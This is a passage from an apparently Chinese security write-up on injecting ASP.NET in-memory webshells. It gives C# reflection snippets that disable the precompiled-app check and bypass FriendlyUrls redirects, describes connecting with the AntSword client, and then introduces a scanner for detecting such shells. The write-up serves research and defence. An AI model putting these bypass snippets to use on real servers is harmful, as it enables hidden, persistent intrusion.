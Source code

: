 ```csharp
                                                   System.Reflection.BindingFlags.Instance | System.Reflection.BindingFlags.NonPublic);
field_theBuildManager_instance = field_theBuildManager.GetValue(null);
field_isPrecompiledApp_oldValue = field_isPrecompiledApp.GetValue(field_theBuildManager_instance);

if ((bool) field_isPrecompiledApp_oldValue)
{
    // To disable isPrecompiledApp settings
    field_isPrecompiledAppComputed.SetValue(field_theBuildManager_instance, true);
    field_isPrecompiledApp.SetValue(field_theBuildManager_instance, false);
}
```

### 绕过FriendlyUrl

asp.net有个功能叫做FriendlyUrls，可以省略后缀.aspx，主要可能用于seo优化

可以通过RouteTable.Routes.EnableFriendlyUrls()开启。

yso.net中给出了绕过的payload如下：

```csharp
 foreach (var route in System.Web.Routing.RouteTable.Routes)
            {
                
                if (route.GetType().FullName == "Microsoft.AspNet.FriendlyUrls.FriendlyUrlRoute")
                {
                    var FriendlySetting = route.GetType().GetProperty("Settings", System.Reflection.BindingFlags.Instance | System.Reflection.BindingFlags.Public);
                    var settings = new Microsoft.AspNet.FriendlyUrls.FriendlyUrlSettings();
                    settings.AutoRedirectMode = Microsoft.AspNet.FriendlyUrls.RedirectMode.Off;
                    FriendlySetting.SetValue(route, settings);
                }
            }
```

### 测试

注入我们的内存马之后，访问任意一个原本存在的aspx页面，使用蚁剑即可连接。

![img](https://cdn.nlark.com/yuque/0/2022/png/1599908/1647525561068-04f8ff9a-ad85-4f48-9f2e-8235c8184158.png)

## 检测内存马

本人写了个小脚本 ASP.NET-Memshell-Scanner，可用于各类内存马的检测。

下载项目中的检测脚本 https://github.com/yzddmr6/ASP.NET-Memshell-Scanner/blob/master/aspx-memshell-scanner.aspx，放到网站目录下，浏览器访问。

![img](https://cdn.nlark.com/yuque/0/2022/png/1599908/1647526742526-e8898a6e-20bf-45cc-9db7-047fc0786c61.png)

其中id为1的是本文后一种注入方法，id为2的是前一种注入方法。前一种注入方法可以通过类成员来获取注入的路径跟实现的内容。
